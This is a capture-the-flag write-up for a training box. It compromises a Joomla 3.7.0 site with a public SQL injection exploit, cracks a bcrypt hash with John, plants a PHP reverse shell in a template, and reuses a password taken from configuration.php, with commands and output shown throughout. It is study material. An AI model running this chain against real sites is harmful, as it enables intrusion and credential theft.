








# Daily Bugle

IP Address: 10.10.8.219

## Description

Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage of yum.

## Flags

1. 
2.

## Enumeration/Scanning

### Nmap:
```sh
$ nmap -Pn -vv -sC -oN daily_bugle.nmap 10.10.8.219
# Nmap 7.92 scan initiated Fri Oct  7 20:05:46 2022 as: nmap -Pn -vv -sC -oN daily_bugle.nmap 10.10.35.198
Nmap scan report for 10.10.35.198
Host is up, received user-set (0.21s latency).
Scanned at 2022-10-07 20:05:46 PDT for 26s
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCbp89KqmXj7Xx84uhisjiT7pGPYepXVTr4MnPu1P4fnlWzevm6BjeQgDBnoRVhddsjHhI1k+xdnahjcv6kykfT3mSeljfy+jRc+2ejMB95oK2AGycavgOfF4FLPYtd5J97WqRmu2ZC2sQUvbGMUsrNaKLAVdWRIqO5OO07WIGtr3c2ZsM417TTcTsSh1Cjhx3F+gbgi0BbBAN3sQqySa91AFruPA+m0R9JnDX5rzXmhWwzAM1Y8R72c4XKXRXdQT9szyyEiEwaXyT0p6XiaaDyxT2WMXTZEBSUKOHUQiUhX7JjBaeVvuX4ITG+W8zpZ6uXUrUySytuzMXlPyfMBy8B
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKb+wNoVp40Na4/Ycep7p++QQiOmDvP550H86ivDdM/7XF9mqOfdhWK0rrvkwq9EDZqibDZr3vL8MtwuMVV5Src=
|   256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP4TcvlwCGpiawPyNCkuXTK5CCpat+Bv8LycyNdiTJHX
80/tcp   open  http    syn-ack ttl 63
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-generator: Joomla! - Open Source Content Management
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
3306/tcp open  mysql   syn-ack ttl 63
| mysql-info: 
|_  MySQL Error: Host 'ip-10-18-57-77.eu-west-1.compute.internal' is not allowed to connect to this MariaDB server

Read data files from: /usr/bin/../share/nmap
# Nmap done at Fri Oct  7 20:06:12 2022 -- 1 IP address (1 host up) scanned in 25.98 seconds
```

#### Port 80



##### Gobuster 

```sh
$ gobuster dir -u http://10.10.8.219/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -o gobuster-daily-bugle.txt
/images               (Status: 301) [Size: 234] [--> http://10.10.8.219/images/]
/media                (Status: 301) [Size: 233] [--> http://10.10.8.219/media/]
/templates            (Status: 301) [Size: 237] [--> http://10.10.8.219/templates/]
/bin                  (Status: 301) [Size: 231] [--> http://10.10.8.219/bin/]
/libraries            (Status: 301) [Size: 237] [--> http://10.10.8.219/libraries/]
/includes             (Status: 301) [Size: 236] [--> http://10.10.8.219/includes/]
/plugins              (Status: 301) [Size: 235] [--> http://10.10.8.219/plugins/]
/language             (Status: 301) [Size: 236] [--> http://10.10.8.219/language/]
/modules              (Status: 301) [Size: 235] [--> http://10.10.8.219/modules/]
```

##### robots.txt



Navigating to http://10.10.8.219/administrator/ gives us a login page for `Joomla!`:


##### Gobuster /administrator/
```
/help                 (Status: 301) [Size: 246] [--> http://10.10.8.219/administrator/help/]
/templates            (Status: 301) [Size: 251] [--> http://10.10.8.219/administrator/templates/]
/includes             (Status: 301) [Size: 250] [--> http://10.10.8.219/administrator/includes/]
/language             (Status: 301) [Size: 250] [--> http://10.10.8.219/administrator/language/]
/modules              (Status: 301) [Size: 249] [--> http://10.10.8.219/administrator/modules/]
/cache                (Status: 301) [Size: 247] [--> http://10.10.8.219/administrator/cache/]
/logs                 (Status: 301) [Size: 246] [--> http://10.10.8.219/administrator/logs/]
```

Now after some searching, we discovered the version of `Joomla!` at http://10.10.8.219/administrator/manifests/files/joomla.xml:




This server is running:
**Joomla!**, version 3.7.0

## Exploitation

Let's see if we can find a vulnerability for **Joomla! 3.7.0**:



### CVE-2017-8917

This is an Sql Injection for **Joomba! 3.7.0**. However, the hint mentions using a python script, so after some research, I discovered [this](https://github.com/stefanlucas/Exploit-Joomla) exploit on Gtihub:



```sh
$ git clone https://github.com/stefanlucas/Exploit-Joomla
$ cd Exploit-Joomla
```
When running this exploit, I was getting an indentation error `IndentationError: unindent does not match any outer indentation level`. To fix this, I ran `:%s/    /^I/g` in vim to replace every instance of 4 spaces with a tab. 

```sh
$ python joomblah.py http://10.10.8.219/
																										
		.---.	.-'''-.		.-'''-.														  
		|   |   '   _	\	 '   _	\							.---.					
		'---' /   /` '.   \  /   /` '.   \  __  __   ___   /|		|   |			.		   
		.---..   |	 \  ' .   |	 \  ' |  |/  `.'   `. ||		|   |		  .'|		  
		|   ||   '	  |  '|   '	  |  '|   .-.  .-.   '||		|   |		 <  |		  
		|   |\	\	 / / \	\	 / / |  |  |  |  |  |||  __	|   |	__	| |		  
		|   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.
		|   |	'-...-'`	   '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
		|   |							  |  |  |  |  |  |||	 | ||   |`" __ | | |  /	| |  
		|   |							  |__|  |__|  |__|||\	/ '|   | .'.''| | | |	 | |  
 __.'   '											  |/'..' / '---'/ /   | |_| |	 | |  
|	  '											   '  `'-'`	   \ \._,\ '/| '.	| '. 
____.'																`--'  `" '---'   '---'
 
 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

We have discovered a username!

### John

Let's run John to see if we can crack this password:

```sh
$ john  joomla_pass.txt --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt >> john.txt
Using default input encoding: UTF-8
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:02:55 0.22% (ETA: 20:54:31) 0g/s 216.4p/s 216.4c/s 216.4C/s CLAIRE..102981
1g 0:00:03:38 DONE (2022-10-08 22:47) 0.004579g/s 214.6p/s 214.6c/s 214.6C/s warden..setsuna
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

$ cat john.txt
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
spiderman123     (?)
```

We have credentials!:

**Username**: jonas

**Password**: spiderman123

Let's sign in to **Joomla!**



#### Exploit

Now we want to gain a reverse shell. After doing some research, I found a method for obtaining a reverse shell [here](https://www.hackingarticles.in/joomla-reverse-shell/):

First navitage through Extensions/templates/beez3 to index.php, then upload a php-reverse-shell script from  [pentestmonkey](https://www.hackingarticles.in/joomla-reverse-shell/), changing the IP address and port.



Then start a listener and run http://10.10.8.219/index.php:

```sh
$ nc -lvnp 4444                                                                                  2m 14s 11:34:23 PM
listening on [any] 4444 ...
connect to [10.18.57.77] from (UNKNOWN) [10.10.8.219] 36518
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 02:53:06 up  3:30,  0 users,  load average: 0.00, 0.01, 0.05
 USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
 uid=48(apache) gid=48(apache) groups=48(apache)
 sh: no job control in this shell
 sh-4.2$ 
```

### Privilege Escalation

#### User

##### SUID

Let us start by enumerating files that have a SUID bit set:

```sh
sh-4.2$ find / -type f -perm -04000 -ls 2>/dev/null
 98415   76 -rwsr-xr-x   1 root     root        73888 Aug  8  2019 /usr/bin/chage
  98416   80 -rwsr-xr-x   1 root     root        78408 Aug  8  2019 /usr/bin/gpasswd
	159662   24 -rws--x--x   1 root     root        23968 Aug  8  2019 /usr/bin/chfn
	159665   24 -rws--x--x   1 root     root        23880 Aug  8  2019 /usr/bin/chsh
	 98419   44 -rwsr-xr-x   1 root     root        41936 Aug  8  2019 /usr/bin/newgrp
	 159713   32 -rwsr-xr-x   1 root     root        32128 Aug  8  2019 /usr/bin/su
	 741488  144 ---s--x--x   1 root     root       147320 Aug  8  2019 /usr/bin/sudo
	 159698   44 -rwsr-xr-x   1 root     root        44264 Aug  8  2019 /usr/bin/mount
	 159717   32 -rwsr-xr-x   1 root     root        31984 Aug  8  2019 /usr/bin/umount
	 438054   60 -rwsr-xr-x   1 root     root        57656 Aug  8  2019 /usr/bin/crontab
	 410127   24 -rwsr-xr-x   1 root     root        23576 Aug  8  2019 /usr/bin/pkexec
	 741450   28 -rwsr-xr-x   1 root     root        27856 Aug  8  2019 /usr/bin/passwd
	 8818454   36 -rwsr-xr-x   1 root     root        36280 Apr 10  2018 /usr/sbin/unix_chkpwd
	 8818452   12 -rwsr-xr-x   1 root     root        11216 Apr 10  2018 /usr/sbin/pam_timestamp_check
	 8877038   12 -rwsr-xr-x   1 root     root        11296 Aug  8  2019 /usr/sbin/usernetctl
	 25506129   16 -rwsr-xr-x   1 root     root        15432 Aug  8  2019 /usr/lib/polkit-1/polkit-agent-helper-1
	 25506116   60 -rwsr-x---   1 root     dbus        58024 Mar 14  2019 /usr/libexec/dbus-1/dbus-daemon-launch-helper
```

Unfortunatey there isn't anything helpful here.

##### Crontab

```sh
sh-4.2$ cat /etc/crontab
cat /etc/crontab
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed
```

##### Web Server Files

```sh
cd /var/www/html
sh-4.2$ ls
ls
LICENSE.txt
README.txt
administrator
bin
cache
cli
components
configuration.php
htaccess.txt
images
includes
index.php
language
layouts
libraries
media
modules
plugins
robots.txt
templates
tmp
web.config.txt
```

```sh
sh-4.2$ cat configuration.php
cat configuration.php

...

public $user = 'root';
public $password = 'nv5uz9r3ZEDzVjNu';

...
```

This looks promising!

```sh
sh-4.2$ su jjameson
su jjameson
Password: nv5uz9r3ZEDzVjNu
cd /home/jjameson
ls
user.txt
```

##### Flag

```sh
